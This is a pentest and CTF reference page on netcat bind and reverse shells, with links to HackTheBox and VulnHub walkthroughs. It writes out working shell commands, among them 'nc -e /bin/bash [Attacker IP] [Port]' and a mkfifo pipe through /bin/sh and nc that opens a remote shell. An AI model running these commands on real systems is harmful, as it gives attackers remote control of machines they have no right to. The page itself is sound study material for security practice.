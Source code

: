 .. _Netcat Shells:

Netcat Shells
=============

+------------+-----------------------------------------------------+
|                   **Reference  Walk-Throughs**                   |
+============+=====================================================+
|`HackTheBox`|:ref:`Lame <Lame Samba>`                             |
+------------+-----------------------------------------------------+
|`VulnHub`   |:ref:`Kioptrix Level 1 <Kioptrix Lv1 Samba>`         |
+------------+-----------------------------------------------------+

+----------+-------------+
| See Also |:ref:`netcat`|
+----------+-------------+

.. index:: netcat

The `netcat` utility is one of the most popular tools for establishing both Bind and Reverse shells during pentests and CTFs. However, it is important to note that the method for establishing these shells will differ based on whether the installed version supports the ``-e`` flag. Without the ``-e`` flag, establishing shells with `netcat` becomes tricky, if not impossible, depending on the target OS.

On Unix-like systems, the lack of ``-e`` flag can be bypassed through some creative I/O redirection. On `Windows` systems, this isn't so easy. Fortunately, `Kali` comes bundled with a `Windows`-compatible ``nc.exe`` binary which has the ``-e`` flag enabled. This file is located in the ``/usr/share/windows-binaries`` directory. If you can manage to upload this file, you can use it to establish both Bind and Reverse shells easily.


Establish Bind Shell
--------------------
With versions of `netcat` which support the ``-e`` flag, creating a bind shell is simple. Examples:

.. code-block:: none

    Unix:    nc -e /bin/bash -lp [Port]
    Windows: nc.exe -e cmd.exe -lp [Port]

In versions of `netcat` without support for the ``-e`` flag, creating a bind shell on `Windows` is not possible. On Unix-like systems, however, bind shells can be established with a little I/O redirection:

.. code-block:: none

    rm /tmp/x;mkfifo /tmp/x;cat /tmp/x |/bin/sh -i 2>&1 |nc -lp [Port] >/tmp/x


Connect to Bind Shell
---------------------
To connect to a Bind shell established on a remote system using `netcat`, use the following syntax:

.. code-block:: none

    Unix:    nc [Target IP] [Port]
    Windows: nc.exe [Target IP] [Port]


Catch a Reverse Shell
---------------------
In order to create a reverse shell, you'll first need to establish a Listener to catch the incoming connection. This can be done with the following syntax:

.. code-block:: none

    Unix:    nc -lp [Port]
    Windows: nc.exe -lp [Port]


Establish Reverse Shell
-----------------------
After creating a Listener to catch incoming connections, you're ready to establish a Reverse shell. In versions of `netcat` with support for the ``-e`` flag, this is simple:

.. code-block:: none

    Unix:    nc -e /bin/bash [Attacker IP] [Port]
    Windows: nc.exe -e cmd.exe [Attacker IP] [Port]

In versions of `netcat` without support for the ``-e`` flag, creating a Reverse shell on `Windows` is not possible. However, in Unix-like systems, it can be accomplished via I/O redirection:

.. code-block:: none

    rm /tmp/x;mkfifo /tmp/x;cat /tmp/x |/bin/sh -i 2>&1 |nc [Attacker IP] [Port] >/tmp/x
